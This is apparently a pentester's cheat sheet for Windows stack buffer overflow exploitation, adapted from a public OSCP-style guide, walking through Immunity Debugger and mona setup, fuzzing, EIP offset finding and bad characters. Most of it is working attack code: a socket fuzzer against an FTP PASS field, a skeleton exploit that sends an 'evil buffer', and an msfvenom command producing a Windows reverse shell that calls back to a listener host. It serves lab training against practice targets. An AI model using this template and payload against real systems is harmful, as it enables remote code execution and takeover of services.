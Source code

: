 ################
Buffer Overflows
################   


Taken from Tiberius's https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst, my notes added   
New to buffer overflows??? - start with Background Material below   

* https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10
* https://www.abatchy.com/2017/05/jumping-to-shellcode.html
* http://www.voidcn.com/article/p-ulyzzbfx-z.html
* https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/
* https://medium.com/@johntroony/a-practical-overview-of-stack-based-buffer-overflow-7572eaaa4982

Immunity Debugger
=================

**Always run Immunity Debugger as Administrator if you can.**

There are generally two ways to use Immunity Debugger to debug an application:

1. Make sure the application is running, open Immunity Debugger, and then use :code:`File -> Attach` to attack the debugger to the running process.
2. Open Immunity Debugger, and then use :code:`File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

Note: If the binary you are debugging is a Windows service, you may need to restart the application via :code:`sc`

.. code-block:: none

    sc stop SLmail
    sc start SLmail

Some applications are configured to be started from the service manager and will not work unless started by service control.

Mona Setup
==========

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: :download:`mona.py <../_static/files/mona.py>`

| The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

.. code-block:: none

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

.. code-block:: python

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

.. code-block:: python

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

.. code-block:: none

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

.. code-block:: none

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================
Common bad chars: \\x00, \\x0A, \\x0D, bad chars often corrupt the next byte after them.   

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

.. code-block:: none

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

.. code-block:: python

    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

.. code-block:: none

    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

.. code-block:: none

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

.. code-block:: none

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

.. code-block:: none

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

.. code-block:: none

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c    
    
copy C shellcode and insert into python script as payload = ("\xfc\xbb\xa1\..multiple lines..6\xa2\xeb\x0c")

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Buffer Overflow Practice
========================

* https://github.com/justinsteven/dostackbufferoverflowgood
* https://github.com/stephenbradshaw/vulnserver
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/    



Background Knowledge  
========================    

The Cyber Mentor Buffer Overflow Videos: https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G     
Walkthrough Guide for TCM Videos: https://github.com/johnjhacking/Buffer-Overflow-Guide      

